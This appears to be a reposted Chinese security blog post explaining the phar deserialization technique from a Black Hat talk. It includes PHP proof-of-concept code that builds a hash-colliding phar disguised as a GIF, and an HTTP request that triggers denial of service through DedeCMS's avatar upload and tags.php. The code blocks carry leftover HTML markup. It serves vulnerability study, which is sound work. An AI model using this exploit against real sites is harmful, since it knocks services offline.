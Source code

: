 > 原文链接: https://www.anquanke.com//post/id/157439 


# Blackhat议题解读 | phar反序列化


                                阅读量   
                                **188525**
                            
                        |
                        
                                                                                    



[![](https://p2.ssl.qhimg.com/t018c9ed442b5bc2cad.png)](https://p2.ssl.qhimg.com/t018c9ed442b5bc2cad.png)

> 本文来自 ChaMd5安全团队审计组 呆哥，文章内容以思路为主。

## 引言

## 漏洞原理

跟进PHP内核可以看到，当内核调用phar_parse_metadata()解析metadata数据时，会调用php_var_unserialize()对其进行反序列化操作，因此会造成反序列化漏洞。



## 漏洞利用

```
&lt;?php<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">set_time_limit(0);<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">$size= pow(2, 16);<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">$array = **array**();<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">**for **($key = 0, $maxKey = ($size - 1) * $size; $key &lt;= $maxKey; $key += $size) `{`<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">    $array[$key] = 0;<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">`}`<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">$new_obj = **new **stdClass;<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">$new_obj-&gt;hacker = $array;<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">$p = **new **Phar(**__DIR__ **. '/avatar.phar', 0);<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">$p['hacker.php'] = '&lt;?php ?&gt;';<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">$p-&gt;setMetadata($new_obj);<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">$p-&gt;setStub('GIF&lt;?php __HALT_COMPILER();?&gt;');<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">
```

```
**&lt;?php<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">**set_time_limit(0);<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">$startTime = microtime(**true**);<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">file_exists("[phar://avatar.phar](phar://avatar.phar)");<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">$endTime = microtime(**true**);<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">**echo **'执行时间：  '.($endTime - $startTime). ' 秒'; <br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">
```



## 漏洞实例复现

这里我要利用DedeCMS一个很出名的漏洞点，这个漏洞最初被用于探测后台目录，之后在“巅峰极客”比赛中被当做SSRF攻击利用，现在我要利用这个漏洞点构造phar反序列化来产生拒绝服务攻击！

首先通过织梦的头像上传点来上传phar文件（avatar.jpg）

文件位置：** /member/edit_face.php**

由于DedeCMS默认的上传文件大小被限制为50K，所以我们要修改一下配置文件：

**找到\data\config.cache.inc.php，**

**把$cfg_max_face修改为5000**



上传成功后就会显示出文件的相对路径，然后直接构造如下数据包即可验证漏洞：

```
POST /uploads/tags.php HTTP/1.1<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">Host: 127.0.0.1<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">Content-Type: application/x-www-form-urlencode<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">Content-Length: 136    <br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;"><br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">dopost=save&amp;_FILES[lsa][tmp_name]=[phar://uploads/userup/3/myface.jpg](phar://uploads/userup/3/myface.jpg)&amp;_FILES[lsa][name]=0&amp;_FILES[lsa][size]=0&amp;_FILES[lsa][type]=image/gif<br style="margin: 0px; padding: 0px; max-width: 100%; box-sizing: border-box; overflow-wrap: break-word;">
```



## 参考

**[1]**[https://www.lorexxar.cn/2017/11/10/hitcon2017-writeup/](https://www.lorexxar.cn/2017/11/10/hitcon2017-writeup/)

**[2]**[http://php.net/manual/en/book.phar.php](http://php.net/manual/en/book.phar.php)

**[3]**[https://blog.ripstech.com/2018/new-php-exploitation-technique/](https://blog.ripstech.com/2018/new-php-exploitation-technique/)

**[4]**[http://www.laruence.com/2011/12/30/2435.html](http://www.laruence.com/2011/12/30/2435.html)

**[5]**[https://raw.githubusercontent.com/s-n-t/presentations/master/us-18-Thomas-It’s-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf](https://raw.githubusercontent.com/s-n-t/presentations/master/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf)
